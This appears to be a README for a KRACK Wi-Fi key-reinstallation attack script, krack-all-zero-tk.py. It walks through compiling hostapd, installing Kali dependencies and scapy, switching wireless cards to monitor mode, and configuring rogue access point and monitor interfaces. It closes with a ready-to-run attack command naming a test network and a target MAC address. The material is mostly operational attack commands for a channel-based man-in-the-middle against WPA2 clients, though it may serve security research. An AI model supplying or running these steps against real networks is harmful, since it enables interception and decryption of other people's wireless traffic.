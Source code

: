 This script is currently not actively supported. The documentation is also not complete.

Before running this script, you must compile hostapd. This only needs to be done once:

	  cd ../hostapd
	  cp defconfig .config
	  make -j 2
	  cd ../
	  ./build.sh

Then you can exece this script. See [our video](https://youtu.be/Oh4WURZoR98?t=47) for example commands.

## Prerequisties
intall the following dependencies on Kali Linux:
 ```
$sudo apt update
$sudo apt install libnl-3-dev libnl-genl-3-dev macchanger pkg-config libssl-dev net-tools git sysfsutils pip tcpdump
```
install the following python package:
```
pip install --user mitm_channel_based
pip install scapy==2.4.3
pip install pycryptodome
```

set the nic_rogue_ap, nic_rogue_mon interface to monitor
```
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode Monitor
sudo ifconfig wlan0 up
```

## Description
```
KRAckAttack(args.nic_real_mon, args.nic_rogue_ap, args.nic_rogue_mon, args.ssid, args.target, args.dump, args.continuous_csa)
```
- nic_real_mon: nic_real, nic_real_clientack
- nic_rogue_ap: nic_rogue_ap
- nic_rogue_mon: nic_rogue_mon

krack-all-zero-tk.py KRAckAttack class confiure_interfaces()
define wifi interfaces !
1. iw <nic_real> set type monitor
2. <nic_real_clientack> = <nic_real> + sta1
3. iw <nic_real> interface add <nic_real_clientack> type managed

4. (沒特別指定的話) <nic_rogue_mon> = <nic_rogue_ap> + mon
5. iw <nic_rogue_ap> interface add <nic_rogue_mon> type monitor
6. iw <nic_rogue_mon> set type monitor

- nic_real_mon : MERCUSYS MW300UM
- nic_rogue_ap : TP-Link TL-WN722N V2
- nic_rogue_mon: TP-Link AC600

```
python3 ./krack-all-zero-tk.py <nic_real_mon> <nic_rogue_ap> testnetwork --nic-rogue-mon(-m) <nic_rogue_mon> --target(-t) 60:45:cb:01:ce:4c
```

```
sudo ./hostapd hostapd.conf
```